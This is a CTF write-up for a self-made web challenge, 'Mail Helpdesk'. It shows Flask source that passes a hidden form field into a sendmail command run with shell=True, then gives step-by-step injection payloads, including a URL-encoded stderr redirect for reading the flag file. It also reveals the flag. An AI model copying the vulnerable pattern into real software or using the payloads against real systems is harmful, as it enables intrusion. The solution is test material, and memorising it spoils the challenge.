








# Mail Helpdesk


## Introduction

Mail Helpdesk is a small web challenge I made around an internal IT support portal.

The application lets users submit a support request which is then passed to `sendmail` on the server.

The main vulnerability is command injection. Finding the injection itself is fairly straightforward from the source, but getting useful output back requires a bit more attention to how the application handles stdout and stderr.

- **Category:** Web
- **Difficulty:** Medium
- **Flag:** `CTFkom{m4i1_s3rv3r_1nj3c710n_w0w}`


## Running the Challenge

The easiest way to run the challenge is with Docker.

Clone the repository and move into the challenge directory:

```bash
git clone git@github.com:Mihailohrani/CTF-Favorites.git
cd CTF-Favorites/Mail-Helpdesk
```

Build the Docker image:

```bash
docker build -t mail-helpdesk .
```

Start the container:

```bash
docker run --rm -p 6789:6789 mail-helpdesk
```

The challenge should now be available at:

```text
http://localhost:6789
```

When you're done, stop the container with `Ctrl+C`.

---

# 1. Looking at the application

The challenge starts with a simple internal IT helpdesk portal.



The form contains the usual fields for `To`, `From`, `Subject` and `Message`.

I filled it with some random values just to show what a normal request looks like.



There is not much to work with from the interface itself, so the source code gives us a better idea of what is happening behind the scenes.

---

# 2. Reading the source

The interesting part is inside the `/support` route in `app.py`.

The application reads the normal form values, along with another parameter called `mail_options`:

```python
to_addr = request.form.get("to", "")
subject = request.form.get("subject", "")
message = request.form.get("message", "")
from_addr = request.form.get("from", "")
mail_options = request.form.get("mail_options", "")
```

`mail_options` is then inserted directly into the command used to start `sendmail`:

```python
cmd = f"/usr/sbin/sendmail -t -i {mail_options}"
```

The command is later executed using:

```python
proc = subprocess.Popen(
    cmd,
    shell=True,
    stdin=subprocess.PIPE,
    stdout=subprocess.PIPE,
    stderr=subprocess.PIPE,
    text=True
)
```

This is where the command injection comes from.

`mail_options` is user controlled, gets concatenated directly into the command, and the resulting string is executed with `shell=True`.

There is another important detail further down:

```python
stdout, stderr = proc.communicate(input=email_body, timeout=10)

if stderr:
    result = stderr
else:
    result = "Message queued for delivery."
```

Both stdout and stderr are captured, but only stderr is returned to the user.

This means getting command execution is only part of the solution. Commands such as `id` or `cat` normally write their output to stdout, which the application captures but never displays.

---

# 3. Finding `mail_options`

The `mail_options` parameter does not appear as a normal field on the page.

Looking at the HTML shows that it is a hidden input:

```html
<div class="field" style="display: none;">
    <label for="field-mail-options">Mail Options</label>
    <input type="hidden" id="field-mail-options" name="mail_options" />
</div>
```

The field is hidden from the interface, but the server still accepts it like any other form parameter.

So the request can be intercepted in Burp and `mail_options` can be added manually.

---

# 4. Testing the command injection

A simple way to confirm the injection is with `id`.

The parameter can be added to the request like this:

```text
mail_options=;id
```

The intercepted request looks like this:



```text
to=a%40.com&from=a%40&subject=sadas&message=dsada&mail_options=;id
```

The semicolon ends the `sendmail` command and starts a new command.

After forwarding the request, the result page shows:



The `Command Used` section shows:

```text
/usr/sbin/sendmail -t -i ;id
```

I added the `Command Used` box as a hint (It's supposed to be a medium difficulty challenge so yea) to make it easier to see how the supplied value ends up inside the command.

At this point the command injection is confirmed.

However, the server response still says:

```text
Message queued for delivery.
```

There is no output from `id`.

Looking back at the source explains why. `id` writes its output to stdout, while the application only displays stderr.

So the command executes, but its output is not returned to the user.

---

# 5. Trying to read the flag

With command execution confirmed, the next step is reading the flag.

The flag is located at:

```text
/app/flag.txt
```

So the injected parameter can be changed to:

```text
mail_options=;cat /app/flag.txt
```

This results in:

```text
/usr/sbin/sendmail -t -i ;cat /app/flag.txt
```



The command executes, but the response is still:

```text
Message queued for delivery.
```

Again, this comes back to how the application handles stdout and stderr.

`cat` reads the flag and writes it to stdout. The application captures that output but never displays it.

To actually see the flag, the output needs to end up in stderr instead.

---

# 6. Redirecting stdout to stderr

On Linux, stdout is file descriptor `1` and stderr is file descriptor `2`.

We can redirect stdout to stderr using:

```bash
1>&2
```

So the payload becomes:

```text
mail_options=;cat /app/flag.txt 1>&2
```

The idea is that `cat` still writes to stdout, but stdout now points to stderr. Since the application displays stderr, the flag should then appear in the response.

Sending the payload directly, however, gives a syntax error:



The response shows:

```text
/bin/sh: 1: Syntax error: end of file unexpected
```

The more useful part is the command displayed underneath:

```text
/usr/sbin/sendmail -t -i ;cat /app/flag.txt 1>
```

The `&2` is missing.

The reason is that the POST request uses:

```text
application/x-www-form-urlencoded
```

In a URL encoded form body, `&` is used to separate parameters.

So if the request contains:

```text
mail_options=;cat /app/flag.txt 1>&2
```

the `&` is interpreted by the form parser before the value ever reaches the shell.

The application therefore receives an incomplete value:

```text
;cat /app/flag.txt 1>
```

which explains the shell syntax error.

---

# 7. URL encoding the ampersand

To make the complete payload reach the shell, the ampersand needs to be URL encoded.

The encoded version of `&` is:

```text
%26
```

So instead of sending:

```text
1>&2
```

directly in the form body, we send:

```text
1>%262
```

The final parameter is:

```text
mail_options=;cat /app/flag.txt 1>%262
```

The request in Burp looks like this:



When Flask parses the form data, `%26` is decoded back into `&`.

The value of `mail_options` therefore becomes:

```text
;cat /app/flag.txt 1>&2
```

and the command executed on the server is:

```text
/usr/sbin/sendmail -t -i ;cat /app/flag.txt 1>&2
```

Now the output from `cat` is redirected into stderr, which is the output stream the application actually displays.

Forwarding the request gives us the flag:



```text
CTFkom{m4i1_s3rv3r_1nj3c710n_w0w}
```
